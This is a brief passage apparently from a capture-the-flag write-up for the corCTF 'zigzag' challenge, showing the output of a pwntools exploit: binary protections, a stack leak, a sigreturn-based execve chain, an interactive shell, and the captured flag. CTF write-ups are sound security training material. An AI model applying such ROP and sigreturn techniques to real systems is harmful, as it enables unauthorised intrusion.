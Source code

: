 ```py  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x200000)  
[+] Opening connection to be.ax on port 31278: Done  
[*] stack: 0x7ffe21d2cc68  
[*] Loaded 37 cached gadgets for 'zigzag'  
[*] Using sigreturn for 'SYS_execve'  
[*] Switching to interactive mode  
$ id  
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)  
$ cat flag.txt  
corctf{bl4Z1nGlY_f4sT!!}  
"""  
```

Original writeup (https://ret2school.github.io/post/zigzag/).